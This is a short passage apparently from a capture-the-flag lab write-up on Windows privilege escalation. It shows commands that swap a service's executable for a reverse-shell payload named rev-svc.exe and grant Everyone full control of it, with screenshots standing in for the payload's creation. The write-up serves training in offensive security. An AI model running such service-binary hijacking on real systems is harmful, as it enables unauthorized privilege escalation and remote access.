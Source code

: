 	* Create and download payload
	
		![task5-payload](./images/task5-payload.png)

		![task5-download](./images/task5-download.png)

	* Replace original file with our payload
	
		```
		cd C:\PROGRA~2\SYSTEM~1\
		move WService.exe WService.exe.bkp
		move C:\Users\thm-unpriv\rev-svc.exe WService.exe
		icacls WService.exe /grant Everyone:F
		```

		![task5-replace](./images/task5-replace.png)
